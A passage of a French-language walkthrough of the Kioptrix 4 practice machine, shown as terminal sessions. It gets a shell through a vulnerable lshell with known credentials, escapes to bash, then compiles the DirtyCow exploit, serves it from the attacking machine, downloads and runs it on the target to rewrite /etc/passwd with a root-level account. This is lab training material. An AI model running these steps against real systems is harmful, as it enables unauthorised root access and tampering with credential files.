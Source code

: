 ~~~bash
root@Kali:~/kiopitrix-1-3# python lshell.py john MyNameIsJohn 192.168.122.133 22
[!] .............................
[!] lshell <= 0.9.15 remote shell.
[!] note: you can also ssh in and execute '/bin/bash'
[!] .............................
[!] Checking host 192.168.122.133...
[+] vulnerable lshell found, preparing pseudo-shell...
$ whoami
john
~~~

Je suis donc utilisateur sur la machine mais, testons une autre technique : 

~~~bash
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ ls
john@Kioptrix4:~$ whoami
john
~~~

### Élévation des privilèges 
Je vais ici tenter une exploitation du Noyau : 

~~~bash
john@Kioptrix4:~$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
~~~

La cible vulnérable a la faille DrityCow. Pour l'exploiter je vais utiliser l'exploit de Firefart. Cet exploit nécessite une modification du code source pour faire correspondre les noms d'utilisateurs. Sur Vi je vais faire un simple chercher/remplacer :

~~~bash
s%/firefart/root/g
~~~

Puis je compile l'exploit en 32 bits pour le rendre compatible avec la cible : 

~~~bash
root@Kali:~/kiopitrix-1-3# gcc -pthread 40839.c -o dirty -lcrypt -m32
~~~

On va maintenant upload l'exploit sur notre cible : 

~~~bash
root@Kali:~/kiopitrix-1-3# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.122.133 - - [16/Jun/2018 11:20:44] "GET /dirty HTTP/1.0" 200 -
~~~

>lien de l'exploit : https://www.exploit-db.com/exploits/40839/

Depuis la cible :
~~~bash
john@Kioptrix4:~$ wget http://192.168.122.197:8000/dirty
--05:20:43--  http://192.168.122.197:8000/dirty 
           => `dirty'
Connecting to 192.168.122.197:8000... connected.                         
HTTP request sent, awaiting response... 200 OK                           
Length: 12,604 (12K) [application/octet-stream]
100%[===========================================>] 12,604        --.--K/s 
05:20:43 (185.26 MB/s) - `dirty' saved [12604/12604]      
john@Kioptrix4:~$ ./dirty
File /tmp/passwd.bak already exists! Please delete it and run again
john@Kioptrix4:~$ rm -rf /tmp/passwd.bak
john@Kioptrix4:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
root:roCNHQuSLUKxA:0:0:pwned:/root:/bin/bash
~~~